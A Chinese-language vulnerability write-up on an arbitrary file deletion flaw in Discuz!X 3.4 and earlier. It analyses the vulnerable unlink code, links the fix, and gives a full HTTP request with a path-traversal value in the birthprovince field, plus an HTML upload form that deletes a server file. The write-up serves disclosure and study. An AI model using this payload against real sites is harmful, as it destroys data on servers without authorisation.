







# Discuz!X 3.4 任意文件删除漏洞

> 原文：[http://book.iwonder.run/0day/Discuz/3.html](http://book.iwonder.run/0day/Discuz/3.html)

## 一、漏洞简介

## 二、漏洞影响

影响版本：Discuz!X ≤3.4

## 三、复现过程

### 漏洞分析

Discuz!X 的码云已经更新修复了该漏洞

[https://gitee.com/ComsenzDiscuz/DiscuzX/commit/7d603a197c2717ef1d7e9ba654cf72aa42d3e574](https://gitee.com/ComsenzDiscuz/DiscuzX/commit/7d603a197c2717ef1d7e9ba654cf72aa42d3e574)

核心问题在`upload/source/include/spacecp/spacecp_profile.php`



跟入代码 70 行

```
if(submitcheck('profilesubmit')) { 
```

当提交 profilesubmit 时进入判断，跟入 177 行



我们发现如果满足配置文件中某个 formtype 的类型为 file，我们就可以进入判断逻辑，这里我们尝试把配置输出出来看看



我们发现 formtype 字段和条件不符，这里代码的逻辑已经走不进去了

我们接着看这次修复的改动，可以发现 228 行再次引入语句 unlink

```
@unlink(getglobal('setting/attachdir').'./profile/'.$space[$key]); 
```

回溯进入条件



当上传文件并上传成功，即可进入 unlink 语句



然后回溯变量`$space[$key]`,不难发现这就是用户的个人设置。

只要找到一个可以控制的变量即可，这里选择了 birthprovince。

在设置页面直接提交就可以绕过字段内容的限制了。


成功实现了任意文件删除

### 漏洞复现

访问`http://your-ip/robots.txt`可见 robots.txt 是存在的：


注册用户后，在个人设置页面找到自己的 formhash：



带上自己的 Cookie、formhash 发送如下数据包：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [your cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

[your formhash]
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s-- 
```

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：


说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成 discuz 的域名，`[form-hash]`改成你的 formhash：

```
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body> 
```

用浏览器打开该页面，上传一个正常图片。此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除：



